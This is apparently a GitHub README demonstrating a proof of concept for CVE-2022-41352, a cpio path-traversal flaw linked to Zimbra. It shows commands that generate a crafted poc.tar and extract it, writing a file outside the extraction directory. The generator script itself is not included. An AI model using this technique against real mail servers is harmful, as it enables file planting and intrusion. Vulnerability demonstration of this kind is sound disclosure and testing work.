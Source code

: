 # cve-2022-41352

# generate poc.tar
```
$ chmod +x zimbra_cpio_pocgen.py
$ ./cpio_pocgen.py
```

# show the middle finger to cpio
```
$ cd /tmp
$ mkdir -p poc/a/b

copy poc.tar to /tmp/poc/a/b/

$ cd /tmp/poc/a/b/
$ cpio -i < poc.tar
$ ls -al ../
total 16
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:56 .
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:55 ..
drwxrwxr-x 2 xabino xabino 4096 ott 10 14:56 b
-rw-r--r-- 1 xabino xabino   35 ott 10 14:56 here.txt <-- resource outside of /tmp/poc/a/b/

$ cat ../here.txt
I should not be here
```
